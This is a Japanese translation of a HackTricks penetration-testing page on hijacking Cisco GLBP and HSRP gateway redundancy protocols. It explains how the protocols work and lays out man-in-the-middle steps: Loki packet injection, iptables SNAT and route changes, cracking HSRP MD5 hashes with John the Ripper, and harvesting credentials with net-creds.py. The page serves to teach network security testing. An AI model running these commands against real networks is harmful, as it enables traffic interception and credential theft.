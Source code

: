 # GLBP & HSRP Attacks

{% hint style="success" %}
AWSハッキングの学習と練習:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングの学習と練習: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* ハッキングトリックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## FHRPハイジャッキング概要

### FHRPについての洞察
FHRPは、複数のルータを1つの仮想ユニットに統合することで、ネットワークの堅牢性を提供し、負荷分散と障害耐性を向上させるよう設計されています。Cisco Systemsは、GLBPやHSRPなどの優れたプロトコルをこのスイートで導入しました。

### GLBPプロトコルの洞察
Ciscoの創造物であるGLBPは、TCP/IPスタック上で機能し、通信にはUDPポート3222を使用します。GLBPグループ内のルータは、3秒ごとに「hello」パケットを交換します。ルータがこれらのパケットを10秒間送信しない場合、オフラインと見なされます。ただし、これらのタイマーは固定されておらず、変更可能です。

### GLBPの動作と負荷分散
GLBPは、1つの仮想IPと複数の仮想MACアドレスを使用して、ルータ間で負荷分散を可能にすることで際立っています。GLBPグループでは、すべてのルータがパケット転送に関与します。HSRP/VRRPとは異なり、GLBPは次のメカニズムを通じて本物の負荷分散を提供します。

- **ホスト依存型負荷分散:** ホストに一貫したAVF MACアドレス割り当てを維持し、安定したNAT構成に不可欠です。
- **ラウンドロビン負荷分散:** リクエストするホスト間でAVF MACアドレスの割り当てを交互に行うデフォルトのアプローチ。
- **重み付きラウンドロビン負荷分散:** 事前に定義された「重み」メトリクスに基づいて負荷を分散します。

### GLBPの主要なコンポーネントと用語
- **AVG (Active Virtual Gateway):** MACアドレスをピアルータに割り当てる責任を持つ主要なルータ。
- **AVF (Active Virtual Forwarder):** ネットワークトラフィックを管理するために指定されたルータ。
- **GLBP優先度:** AVGを決定するメトリクスで、デフォルトは100から255の範囲で始まります。
- **GLBP重み:** ルータ上の現在の負荷を反映し、手動で調整するか、オブジェクトトラッキングを介して調整します。
- **GLBP仮想IPアドレス:** 接続されたすべてのデバイスのデフォルトゲートウェイとして機能します。

GLBPでは、予約されたマルチキャストアドレス224.0.0.102とUDPポート3222を使用して相互作用します。ルータは3秒ごとに「hello」パケットを送信し、パケットが10秒間受信されない場合は非稼働と見なされます。

### GLBP攻撃メカニズム
攻撃者は、最も高い優先度値（255）を持つGLBPパケットを送信することで、主要ルータになることができます。これにより、DoSやMITM攻撃が発生し、トラフィックの傍受やリダイレクトが可能になります。

### Lokiを使用したGLBP攻撃の実行
[Loki](https://github.com/raizo62/loki_on_kali)は、優先度と重みが255に設定されたパケットを注入することでGLBP攻撃を実行できます。攻撃前の手順には、Wiresharkなどのツールを使用して、仮想IPアドレス、認証の有無、およびルータの優先度値などの情報を収集することが含まれます。

攻撃手順:
1. プロミスキャスモードに切り替えてIPフォワーディングを有効にします。
2. ターゲットルータを特定し、そのIPを取得します。
3. Gratuitous ARPを生成します。
4. AVGをなりすまして悪意のあるGLBPパケットを注入します。
5. 攻撃者のネットワークインターフェースにセカンダリIPアドレスを割り当て、GLBP仮想IPを反映させます。
6. 完全なトラフィックの可視性のためにSNATを実装します。
7. インターネットアクセスを元のAVGルータを介して継続するようにルーティングを調整します。

これらの手順に従うことで、攻撃者は自分自身を「中間者」として配置し、暗号化されていないまたは機密性の高いデータを含むネットワークトラフィックを傍受および分析できます。

デモンストレーションのために、必要なコマンドスニペットは次のとおりです:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
### HSRPハイジャックのパッシブな説明とコマンドの詳細

#### HSRP（Hot Standby Router/Redundancy Protocol）の概要
HSRPは、ネットワークゲートウェイの冗長性のために設計されたCisco独自のプロトコルです。複数の物理ルータを1つの論理ユニットに構成し、共有IPアドレスを持つことができます。この論理ユニットは、トラフィックを管理するための主要ルータによって管理されます。GLBPが優先度や重みなどのメトリクスを使用して負荷分散を行うのに対し、HSRPは単一のアクティブルーターに依存してトラフィックを管理します。

#### HSRPの役割と用語
- **HSRPアクティブルーター**：ゲートウェイとして機能し、トラフィックフローを管理するデバイス。
- **HSRPスタンバイルーター**：アクティブルーターが故障した場合に引き継ぐ準備ができたバックアップルーター。
- **HSRPグループ**：1つの強固な仮想ルーターを形成するために協力するルーターのセット。
- **HSRP MACアドレス**：HSRPセットアップ内の論理ルーターに割り当てられた仮想MACアドレス。
- **HSRP仮想IPアドレス**：接続されたデバイスのデフォルトゲートウェイとして機能するHSRPグループの仮想IPアドレス。

#### HSRPのバージョン
HSRPには、HSRPv1とHSRPv2の2つのバージョンがあり、主にグループ容量、マルチキャストIPの使用、および仮想MACアドレス構造が異なります。プロトコルは、サービス情報の交換に特定のマルチキャストIPアドレスを使用し、Helloパケットは3秒ごとに送信されます。パケットが10秒間受信されない場合、ルーターは非アクティブと見なされます。

#### HSRP攻撃メカニズム
HSRP攻撃は、最大優先度値を注入することでアクティブルーターの役割を強制的に引き継ぐことを含みます。これにより、中間者攻撃（MITM）が発生する可能性があります。攻撃前の重要なステップには、HSRPセットアップに関するデータを収集することが含まれ、これはトラフィック分析のためにWiresharkを使用して行うことができます。

#### HSRP認証のバイパス手順
1. HSRPデータを含むネットワークトラフィックを.pcapファイルとして保存します。
```shell
tcpdump -w hsrp_traffic.pcap
```
2. hsrp2john.pyを使用して.pcapファイルからMD5ハッシュを抽出します。
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. John the Ripperを使用してMD5ハッシュをクラックします。
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Lokiを使用したHSRPインジェクションの実行**

1. Lokiを起動してHSRP広告を特定します。
2. ネットワークインターフェースをプロミスキャスモードに設定し、IPフォワーディングを有効にします。
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Lokiを使用して特定のルーターをターゲットにし、クラックされたHSRPパスワードを入力し、アクティブルーターを偽装するために必要な設定を行います。
4. アクティブルーターの役割を取得した後、ネットワークインターフェースとIPテーブルを設定して正当なトラフィックを傍受します。
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. 以前のアクティブルーターを介してトラフィックをルーティングするためにルーティングテーブルを変更します。
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. 傍受したトラフィックから資格情報をキャプチャするためにnet-creds.pyや類似のユーティリティを使用します。
```shell
sudo python2 net-creds.py -i eth0
```

これらの手順を実行することで、攻撃者はGLBPハイジャックの手順と同様にトラフィックを傍受および操作する立場に置かれます。これは、HSRPなどの冗長性プロトコルの脆弱性と堅牢なセキュリティ対策の必要性を示しています。
